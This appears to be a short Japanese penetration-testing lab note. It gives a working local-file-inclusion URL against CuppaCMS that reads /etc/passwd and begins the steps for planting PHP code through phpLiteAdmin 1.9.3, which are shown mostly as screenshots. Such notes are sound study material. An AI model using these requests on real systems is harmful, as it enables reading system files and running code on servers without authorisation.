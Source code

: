 CuppaCMSにLFIの脆弱性がある

```
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

phpLiteAdmin v1.9.3には任意のphpをDBとしてアップロードし、テーブルのレコードにphpテキストを書き込むことができる脆弱性がある。

![image-20230216215803333](img/webapplication/image-20230216215803333.png)

新たにDBを作成する

![image-20230216215910158](img/webapplication/image-20230216215910158.png)

1カラムでtableを追加する

![image-20230216220000812](img/webapplication/image-20230216220000812.png)
